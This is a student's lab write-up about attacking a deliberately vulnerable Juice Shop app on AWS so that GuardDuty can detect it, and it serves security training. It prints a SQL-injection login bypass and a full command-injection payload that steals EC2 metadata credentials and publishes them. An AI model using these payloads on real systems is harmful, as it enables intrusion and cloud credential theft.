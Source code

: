 # Threat Detection with GuardDuty

**Project Link:** [View Project](http://learn.nextwork.org/projects/aws-security-guardduty)

**Author:** Nchindo Boris  
**Email:** nchindoboris37@gmail.com

---

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_v1w2x3y4)

---

## Introducing Today's Project!

### Tools and concepts

The services I used were;
- Amazon GuardDuty
- Amazon CloudFront
- Amazon S3
- AWS CloudFormation
- OWASP Juice Shop

Key concepts I learnt include;
- Deploy a web app using CloudFormation.
- Use SQL injection and arbitrary code execution to expose a web app.
- Steal credentials and sensitive data.
- Detect attacks using GuardDuty.
- Use malware protection to level up my GuardDuty skills.

### Project reflection

This project took me approximately 2 hours to complete

The most challenging part was Deploying the web app with CloudFormation. CloudFormation stack creation kept failing with rollbacks until I challenged the AWS Region and the problem was solved

It was most rewarding to see GuardDuty finding and detecting theats

I did this project today as it is one of the essential projects and goals in getting a cloud career

---

## Project Setup

To set up for this project, I deployed a CloudFormation template that launches a web app. The three main components are;
- Web app infrastructure
- S3 Bucket for storage
- GuardDuty for security monitoring

The web app deployed is called OWASP Juice Shop. To practice my GuardDuty skills, I will hack it to make GuardDuty analyze and picked up on my attacks.

GuardDuty is a threat detection service. In this project, it will help me find potential security risks or attacks in my apps and AWS environment. 

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_n1o2p3q4)

---

## SQL Injection

The first attack I performed on the web app is SQL injection, which means a web vulnerability that happens when an attacker can insert malicious SQL code into an application's database queries. 

SQL injection is a security risk because it can let hackers bypass authentication, steal data, or even change the database structure.

My SQL injection attack involved the ' or 1=1;-- part which makes the query always evaluate to true, which lets you avoid the authentication check.

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_h1i2j3k4)

---

## Command Injection

Next, I used command injection, which is 
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}


The Juice Shop web app is vulnerable to this because the web app doesn't clean up or check the data it receives before processing it. This is known as sanitization.
Sanitization is a best practice where the app knows to strip out or block any harmful scripts or commands, so only harmless, intended data is processed.

To run command injection, I copied and pasted the javascript code in the username field. Proceeded to select Set Username 

The script will change profile's username to [object Object]

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_t3u4v5w6)

---

## Attack Verification

To verify the attack's success, I opened the following URL  https://d1g5ryl8pjkav.cloudfront.net/assets/public/credentials.json

The credentials page showed me the private key credentials that the web app developer is using to store its details

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_x7y8z9a0)

---

## Using CloudShell for Advanced Attacks

The attack continues in CloudShell, because I am trying to get access to private data using stolen credentials. To do this, I have to use CloudShell to run commands that a hacker would run to steal data inside the AWS environment.

In CloudShell, I used;
- wget to download the credentials.json file from our web app and into the CloudShell environment
- Next, I ran a command using cat to display what's inside a file and
- jq to process JSON data.

I then set up a profile, called stolen to use the stolen credentials extracted from the attack on the web application.

I had to create a new profile because this lets us 'hack into' the AWS environment, and I will have to see whether GuardDuty can pick up on the sneaky things I do as a hacker

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_j9k0l1m2)

---

## GuardDuty's Findings

After performing the attack, GuardDuty reported a finding immediately
Findings are notifications that something suspicious has happened in your AWS environment.

The finding tells you what happened, who did it, and how they did it. This helps you understand the attack and fix the problem.

GuardDuty's finding was called UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS which means;
- UnauthorizedAccess = some someone tried to do something they shouldn’t have the rights to within your AWS environment.

- IAMUser/InstanceCredentialExfiltration is the unauthorized activity that GuardDuty detected. Credentials assigned to an EC2 instance (i.e. web server of your web app) were used in a suspicious way, so it's likely that they were stolen. This data breach is called exfiltration.

- InsideAWS tells us that the unauthorized access happened within AWS, but by a different AWS account to yours. 

Anomaly detection was used because GuardDuty would compare this activity against the instance's typical use of its AWS account credentials, and decide that copying an S3 bucket object is out of the ordinary.

GuardDuty's detailed finding about the unauthorized access, reported that;
- The Resource affected, indicating that the attack used an IAM role to access your juice shop's S3 bucket.

- The Action, indicating that an object (i.e. the important information text file) was retrieved.

- The Location and IP address of the attacker, which would be a location in my AWS Region at the time of using CloudShell.

This information is so helpful for analyzing the source of an attack, who the attacker could've been, whether there are threats to anticipate now based on what they retrieved, and how to prevent similar breaches in the future.

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_v1w2x3y4)

---

## Extra: Malware Protection

For my project extension, I enabled  Malware Protection for S3

Malware is a type of software designed to harm computers.
It can damage computers, steal data, or disrupt operations. GuardDuty helps to protect AWS resources by detecting and preventing you from using malware in your environment.

To test Malware Protection, I uploaded malware into my S3 bucket
The uploaded file won't actually cause damage because It's like a fake virus that helps test if your antivirus software is working properly without actually using a real virus. In our case, we're using the test file to verify whether GuardDuty can detect malware.

Once I uploaded the file, GuardDuty instantly triggered the finding type Object:S3/MaliciousFile  

This verified that Malware Protection in GuardDuty is actively monitoring S3 bucket uploads and is capable of detecting known malware signatures

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_sm42x3y4)

---

